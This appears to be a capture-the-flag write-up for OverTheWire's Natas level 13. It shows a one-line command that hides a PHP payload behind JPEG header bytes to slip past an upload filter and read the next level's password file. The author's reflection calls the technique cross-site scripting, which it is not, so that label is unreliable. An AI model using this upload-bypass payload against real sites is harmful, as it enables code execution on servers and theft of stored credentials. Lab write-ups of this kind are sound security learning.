 This time the source code checks for the jpg extensions. 
<img title="inspect html" alt="Alt text" src="../image_resources/natas13_code.png">

In order to still be able to upload a php file inside, we need to add some signature bytes of the image extension. My edited php content is as such:
```
echo -e "\xff\xd8\xff\xe0\n<?php echo exec(\"cat /etc/natas_webpass/natas14\"); ?>" >> natas13.jpg
```
the `\xFF\xD8\xFF` being the jpeg header bytes and saved as a jpg file.

Then following on from the last level where we edited the file extension in the console, we can get the password.

<img title="inspect html" alt="Alt text" src="../image_resources/natas13_bypass.png">

<img title="inspect html" alt="Alt text" src="../image_resources/natas13_pass.png">

### Reflection:
This was quite an interesting challenge that I hadn't expected cross-site scripting to be this easy. Initially, I had thought that you needed to make intricate shellcodes and hide them sneakily into files for the attack to work. However, the attack is so simple to the point that it only requires us to just add image header bytes as a facade to upload our malicious script.  
Therefore, this prompted me to read through the OWASP guidelines on how to avoid cross-site scripting shown here:
https://owasp.org/www-community/attacks/xss/
